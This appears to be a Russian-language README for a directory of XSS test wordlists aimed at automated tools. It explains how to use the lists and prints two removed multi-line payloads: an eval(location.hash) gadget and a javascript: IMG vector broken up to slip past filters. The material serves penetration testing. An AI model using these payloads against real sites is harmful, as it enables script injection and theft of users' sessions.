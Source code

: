 # Версия XSS для роботов

В этом каталоге содержится XSS, которую вы можете протестировать. Для версий, удобных для человека, перейдите в каталог [human-friendly](../human-friendly).

Есть некоторые строки, которые вам, возможно, потребуется изменить / принять к сведению, чтобы процесс тестирования прошел гладко. (например, сторонние ресурсы, которые могут быть помечены WAF и самим xss) 

Для запуска некоторых условий запуска XSS может потребоваться взаимодействие с веб-страницами. Вам следует ознакомиться со всеми приведенными здесь списками слов и понять, что делает каждый XSS, а затем настроить его в соответствии со своими потребностями.

`XSS-Vectors-Mario.txt" и "XSS-With-Context-Jhaddix.txt" могут работать не так хорошо, как раньше, потому что все XS объединяются в одну строку и могут нарушать некоторые xss, которые зависят от новых строк.

Чтобы увидеть результаты, обратите внимание на всплывающие сообщения или сетевую активность в инструментах разработки вашего браузера.

Удачного взлома!

## Удален xss

### XSS-EnDe-h4k.txt

Удален, потому что не было возможности втиснуть это в одну строку

```
_
=
eval
b=1
__
=
location
c=1
_
(
__
.
hash
//
.
substr
(1)
)
```
### XSS-EnDe-xssAttacks.txt

Также удалено из-за его многострочного характера

```
<IMG
SRC
=
"
j
a
v
a
s
c
r
i
p
t
:
a
l
e
r
t
(
'
X
S
S
'
)
"
>
```
